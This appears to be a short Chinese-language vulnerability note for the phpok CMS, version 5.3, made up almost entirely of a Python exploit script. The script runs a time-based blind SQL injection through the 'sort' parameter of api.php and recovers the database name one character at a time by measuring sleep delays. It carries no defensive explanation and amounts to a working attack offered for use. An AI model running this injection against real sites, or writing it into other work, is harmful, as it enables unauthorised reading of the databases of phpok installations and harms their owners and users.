

### phpok

```
版本信息：5.3
```

#### sql注入

```
import requests

database = ""
header = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36 Edg/105.0.1343.42"
}
# proxier = {
#     "http": "127.0.0.1:8080"
# }

for i in range(1, 6):
    for a in range(47, 127):
        payload = "http://192.168.81.195:11000/api.php?c=project&f=index&token=1234&id=news&sort=(1 and if(ascii(substr(database(),{},1))={},sleep(3),1))".format(
            i, a)
        re = requests.get(url=payload, headers=header, timeout=25)
        # print(re.elapsed.total_seconds())
        if re.elapsed.total_seconds() > 10:
            database += chr(a)
            print(database)

```



